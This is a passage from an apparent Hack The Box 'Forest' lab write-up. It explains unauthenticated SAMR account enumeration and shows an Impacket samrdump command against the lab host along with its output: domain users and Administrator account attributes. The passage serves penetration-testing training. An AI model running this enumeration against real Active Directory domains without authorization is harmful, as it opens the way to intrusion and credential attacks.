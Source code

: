 
Along with these, given that RPC and Dynamic RPC (on the TCP High Ports) are available, means to us that SAMR is also available. Why is this important? Well, SAMR or RPC over SMB, or Security Account Manager Remote Protocol, could potentially allow account enumeration with no authentication. That's a big deal, especially when Microsoft recommends to have this locked down (see Resource #5).

With that being said, let's move forward with Impacket's SAMRDump script to get user account information. This step will give you a lot of good information.


### SAMRDUMP
```
root@kali:~/Documents/HTB-Labs/Forest# impacket-samrdump -target-ip forest.htb -port 445 -no-pass htb.local
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Retrieving endpoint list from htb.local
Found domain(s):
 . HTB
 . Builtin
[*] Looking up users in domain HTB
Found user: Administrator, uid = 500
Found user: Guest, uid = 501
Found user: krbtgt, uid = 502
Found user: DefaultAccount, uid = 503
Found user: $331000-VK4ADACQNUCA, uid = 1123
Found user: SM_2c8eef0a09b545acb, uid = 1124
Found user: SM_ca8c2ed5bdab4dc9b, uid = 1125
Found user: SM_75a538d3025e4db9a, uid = 1126
Found user: SM_681f53d4942840e18, uid = 1127
Found user: SM_1b41c9286325456bb, uid = 1128
Found user: SM_9b69f1b9d2cc45549, uid = 1129
Found user: SM_7c96b981967141ebb, uid = 1130
Found user: SM_c75ee099d0a64c91b, uid = 1131
Found user: SM_1ffab36a2f5f479cb, uid = 1132
Found user: HealthMailboxc3d7722, uid = 1134
Found user: HealthMailboxfc9daad, uid = 1135
Found user: HealthMailboxc0a90c9, uid = 1136
Found user: HealthMailbox670628e, uid = 1137
Found user: HealthMailbox968e74d, uid = 1138
Found user: HealthMailbox6ded678, uid = 1139
Found user: HealthMailbox83d6781, uid = 1140
Found user: HealthMailboxfd87238, uid = 1141
Found user: HealthMailboxb01ac64, uid = 1142
Found user: HealthMailbox7108a4e, uid = 1143
Found user: HealthMailbox0659cc1, uid = 1144
Found user: sebastien, uid = 1145
Found user: lucinda, uid = 1146
Found user: svc-alfresco, uid = 1147
Found user: andy, uid = 1150
Found user: mark, uid = 1151
Found user: santi, uid = 1152
Administrator (500)/FullName: Administrator
Administrator (500)/UserComment: 
Administrator (500)/PrimaryGroupId: 513
Administrator (500)/BadPasswordCount: 0
Administrator (500)/LogonCount: 49
Administrator (500)/PasswordLastSet: 2019-09-18 13:09:08.342879
Administrator (500)/PasswordDoesNotExpire: False
Administrator (500)/AccountIsDisabled: False
Administrator (500)/ScriptPath: 
Guest (501)/FullName: 
Guest (501)/UserComment: 
Guest (501)/PrimaryGroupId: 514
Guest (501)/BadPasswordCount: 0
```
